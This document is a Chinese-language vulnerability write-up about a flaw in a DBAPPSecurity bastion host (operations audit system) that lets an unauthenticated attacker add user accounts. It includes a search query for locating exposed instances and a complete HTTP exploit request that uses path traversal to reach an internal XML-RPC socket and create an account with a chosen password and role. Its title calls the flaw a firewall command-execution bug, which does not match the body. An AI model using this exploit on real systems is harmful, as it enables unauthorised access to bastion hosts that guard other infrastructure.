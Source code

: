 # 安恒下一代防火墙存在命令执行漏洞

# 一、漏洞简介
安恒明御运维审计与风险控制系统（简称“DASUSM”）是一款基于运维安全管理的理论和实践经验，结合各类法律法规（如等级保护、赛班斯法案SOX、PCI、企业内控管理、分级保护、ISO/IEC 27001等）对运维审计的要求，采用B/S架构，集“身份认证（Authentication）、账户管理（Account）、控制权限（Authorization）、日志审计（Audit）”于一体，支持多种字符终端协议、文件传输协议、图形终端协议、远程应用协议的安全监控与历史查询，具备全方位运维风险控制能力的统一安全管理与审计产品。安恒明御运维审计风险控制系统（堡垒机）存在任意用户添加漏洞，攻击者可利用该漏洞添加用户登录堡垒机。

# 二、影响版本
+ 安恒明御运维审计与风险控制系统

# 三、资产测绘
+ hunter:`app.name=="安恒明御运维审计与风险控制系统"`

![1691393320775-2fcf53cd-f670-4d22-a04e-ae7f76d4cb44.png](./img/_Zxcf_M89e3_ahWJ/1691393320775-2fcf53cd-f670-4d22-a04e-ae7f76d4cb44-982106.png)

+ 首页

![1691393366555-3c70041c-447d-415f-a6e6-bd852a153318.png](./img/_Zxcf_M89e3_ahWJ/1691393366555-3c70041c-447d-415f-a6e6-bd852a153318-123751.png)

# 四、漏洞复现
使用exp添加用户`qaxnb666/Admin123..`

```java
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 1112

<?xml version="1.0"?>
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.17.1.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>qaxnb666</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>yuwe</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>Admin123..</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>101</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![1691393678758-f523c4a1-eb67-42fb-ae42-b3bb5c838378.png](./img/_Zxcf_M89e3_ahWJ/1691393678758-f523c4a1-eb67-42fb-ae42-b3bb5c838378-918576.png)

![1691393729985-1a6856f8-5697-483e-a696-b7f1f69a28e9.png](./img/_Zxcf_M89e3_ahWJ/1691393729985-1a6856f8-5697-483e-a696-b7f1f69a28e9-919588.png)



> 更新: 2024-07-17 17:36:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/no2fqia6mfaidmur>
